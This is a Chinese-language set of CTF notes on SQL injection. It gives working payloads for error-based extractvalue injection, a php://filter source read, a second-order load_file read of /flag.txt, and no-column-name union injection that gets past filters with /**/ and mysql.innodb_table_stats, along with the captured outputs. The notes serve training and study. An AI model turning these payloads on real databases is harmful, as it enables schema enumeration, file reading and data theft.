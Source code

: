 ## 报错注入
```sql
1 or extractvalue(1, (select database()) )
-- 查询正确 
1 or extractvalue(1, concat(0x7e, (SELECT database()) ))
-- 查询错误: XPATH syntax error: '~sqli' 
1 or extractvalue(1, concat(0x7e, (select group_concat(schema_name) from information_schema.schemata) ))

1 or extractvalue(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='sqli') ))
-- 查询错误: XPATH syntax error: '~news,flag' 
1 or extractvalue(1, concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag')))
-- 查询错误: XPATH syntax error: '~flag' 
1 or extractvalue(1, concat(0x7e, (select flag from sqli.flag)))
-- 查询错误: XPATH syntax error: '~ctfhub{ededf8c215f60ebdbc61340b' 
1 or extractvalue(1, concat(0x7e, substr((select flag from sqli.flag), 32)))
-- 查询错误: XPATH syntax error: '~}' 
```
## Bool盲注
数据库名称、表名和列名 [a-zA-Z0-9_]
## 时间盲注
## [二次注入](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day1%20Web5]CyberPunk)
```sh
file=php://filter/convert.base64-encode/resource=index.php
```
```py
import base64
s = base64.b64decode(s)
```
得到网页源码。
```
',`address`=(select(load_file("/flag.txt")))#
```
## [无列名注入](https://buuoj.cn/challenges#[SWPU2019]Web1)
在“发布广告”中尝试注入然后查看显示的“广告名”和“内容”可以判断过滤掉了空格(%20)、注释`--`和`#`、`or`、`information_schema`等，改用`/**/`替代空格。先确定列数，可以使用`group by`
```sql
1'/**/group/**/by/**/3,'2
```
当到23时点击“广告详情”有报错信息，确认列数为22。
```sql
1'/**/union/**/select/**/1,2,database(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
-- You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' limit 0,1' at line 1
1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
-- 2,3列分别是广告名和广告内容
1'/**/union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
-- web1
1'union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='web1'&&'1'='1
-- ads,users
-- 无列名注入，发现a={1,1,2,3}、b无意义，c有flag
1'union/**/select/**/1,(select/**/group_concat(c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)n),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```